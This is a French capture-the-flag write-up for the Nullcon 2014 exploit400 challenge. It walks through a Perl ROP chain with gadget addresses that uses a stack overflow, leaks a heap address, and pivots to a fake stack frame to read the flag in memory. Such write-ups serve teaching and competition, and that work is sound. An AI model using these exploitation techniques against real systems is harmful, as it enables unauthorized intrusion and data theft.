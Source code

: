 Title: [NULLCON-CTF-2014] Exploit 400
Date: 2014-01-26
Tags: ctf
Author: Tosh
Summary: nullcon-ctf exploit400 write-up

Voici un petit write-up du challenge exploit400, du CTF Nullcon Hackim 2014.

Vous pouvez trouver le binaire ici : [exploit400](http://www.t0x0sh.org/repo/CTF/NULLCON_2014/exploit400)
Et la source ici : [exploit400.c](http://www.t0x0sh.org/repo/CTF/NULLCON_2014/exploit400.c)

Le fait que nous avions accés au code source du programme nous a bien facilité la tâche.

Le programme est on ne peut plus simple :
- Il ouvre et lit le flag de validation, et le stock dans le heap.
- Il demande ensuite une saisie, qui abouti facilement à un stack based overflow.

Il n'y a pas beaucoup de protection, et j'ai programmé mon exploit en prenant en compte l'ASLR probable :

	:::console
	RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
	No RELRO        No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   exploit400

Comment lire le flag stocké en mémoire ? J'ai choisi de faire du ROP afin de bypass l'ASLR et NX.

La première chose que j'ai fais, c'est mettre à zéro 4 bytes du segment DATA. Pour se faire, j'ai utilisé la fonction read, présente dans la @PLT, afin d'envoyer 0x00000000.

	:::perl
	$payload .= pack('L', 0x080483d0); # read@plt                                                                                                                                      
	$payload .= pack('L', 0x080486a7); # pop3;ret                                                                                                                                      
	$payload .= pack('L', 0x00000000); # stdin                                                                                                                                         
	$payload .= pack('L', 0x080498d8); # DATA                                                                                                                                          
	$payload .= pack('L', 4); # size

Ensuite, j'exécute un malloc, histoire d'avoir une adresse du heap, et connaître ainsi l'emplacement du flag.

	:::perl

	$payload .= pack('L', 0x080483f0); # malloc@plt                                                                                                                                    
	$payload .= pack('L', 0x080483a0); # pop;ret                                                                                                                                       
	$payload .= pack('L', 0x100); # size

L'adresse du flag est alors à : EAX - OFFSET. Avec quelques gadgets, je stocke cette valeur en mémoire. (dans la zone initialisé grâce à la fonction read)

	:::perl

	$payload .= pack('L', 0x080483a0); # pop ebx; ret                                                                                                                                  
	$payload .= pack('L', 0x080498d8-0x5d5b04c4); # DATA                                                                                                                               

	$payload .= pack('L', 0x080484de); # add [ebx+0x5d5b04c4],eax 

Je m'envois alors cette valeur via la fonction write

	:::perl
	$payload .= pack('L', 0x08048440); # write@plt                                                                                                                                     
	$payload .= pack('L', 0x080486a7); # pop3;ret                                                                                                                                      
	$payload .= pack('L', 0x00000001); # stdout                                                                                                                                        
	$payload .= pack('L', 0x080498d8); # DATA                                                                                                                                          
	$payload .= pack('L', 4); # size

J'ai choisi d'utiliser une technique de fake-stack-frame + stack-pivot afin d'avoir un code "dynamique" (je calcule comme ça les offsets du heap dans l'exploit, et je peux créer la fake-stack-frame en conséquence). Je reçois ma stack via read(), que je stock dans le segment DATA.
J'exécute ensuite une instruction du type pop ebp; leave; ret; afin de changer de stack-frame.

	:::perl
	$payload .= pack('L', 0x080483d0); # read@plt                                                                                                                                      
	$payload .= pack('L', 0x080486a7); # pop3;ret                                                                                                                                      
	$payload .= pack('L', 0x00000000); # stdin                                                                                                                                         
	$payload .= pack('L', 0x080498d8); # DATA                                                                                                                                          
	$payload .= pack('L', 0x130); # size                                                                                                                                               

	$payload .= pack('L', 0x080484e3); # pop ebp ; ret                                                                                                                                 
	$payload .= pack('L', 0x080498d4);
	$payload .= pack('L', 0x08048511); # leave; ret

Envois du payload

	:::perl
	print $sock $payload;

Mise à zéro d'une variable en mémoire (premier read)

	:::perl
	print $sock "\x00\x00\x00\x00";

Lecture de l'adresse du HEAP envoyée

	:::perl
	$sock->read($r, 21);
	$sock->read($r, 4);
	$r = unpack('L', $r);

Création + envoi de la fake-stack-frame. Il s'agit s'implement d'un write() envoyant le flag.

	:::perl

	$stack .= pack('L', 0x08048440); # write@plt                                                                                                                                       
	$stack .= pack('L', 0x080486a7); # pop3;ret                                                                                                                                        
	$stack .= pack('L', 0x00000001); # stdout                                                                                                                                          
	$stack .= pack('L', $r-0x48); # FLAG                                                                                                                                               
	$stack .= pack('L', 100); # size                                                                                                                                                   

	print $sock $stack;

Réception du flag et validation du challenge !!!

	:::perl

	while($r = <$sock>) {
		print $r;
	}

Un challenge simple, mais plutôt marrant.

Voici l'exploit entier : [exploit400.pl](https://github.com/t00sh/ctf/blob/master/nullcon_ctf_2014/exploit400.pl)

